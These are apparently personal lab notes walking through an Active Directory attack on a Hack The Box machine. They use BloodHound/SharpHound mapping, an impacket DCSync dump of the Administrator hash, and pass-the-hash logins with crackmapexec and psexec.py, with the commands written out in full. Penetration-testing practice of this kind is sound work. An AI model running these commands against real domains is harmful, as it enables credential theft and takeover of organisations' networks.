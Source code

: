 ![[Pasted image 20241213193542.png]]
Discover another user `HSmith` (just domain user)

Running #Bloodhound 

Download `SharpHound.exe`

Upload `SharpHound.exe` to remote machine

Start #neo4j 

`sudo neo4j console`

Execute `SharpHound.exe`
`.\SharpHound.exe` which will create a zip that can be uploaded to BloodHound. 

`download SharpHound.zip`

![[Pasted image 20241213194236.png]]

First thing on BloodHound: 
input pwned username: `svc_loanmgr` and `fsmith`


![[Pasted image 20241213194357.png]]

Then query `Shortest Path from Owned Principals`

Only showing `Can PSRemote`

Query `Find Shortest Paths to Domain Admins` (nope)

Query `Find Principals with DCSync Rights`

Discover path from `svc_mgr` to domain. 

Click on the edge.

Click help. 

![[Pasted image 20241213194915.png]]
This works in conjunction with this:

![[Pasted image 20241213195010.png]]
#impacket has a #dcsync tool 

`secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175`

Enter svc_loanmgr password at prompt. 

This allows us to get the `Administrator's` hash

![[Pasted image 20241213195352.png]]
Can use this to do a #passthehash attack 

`crackmapexec smb 10.10.10.175 -u administrator -H dshddhhdhkahdgd`

![[Pasted image 20241213195527.png]]

Whenever it says pwned, use psexec to connect 
Copy admin hash

`psexec.py egotistical-bank.local/administrator@10.10.10.175 -hashes dshddhhdhkahdgd:dshddhhdhkahdgd`



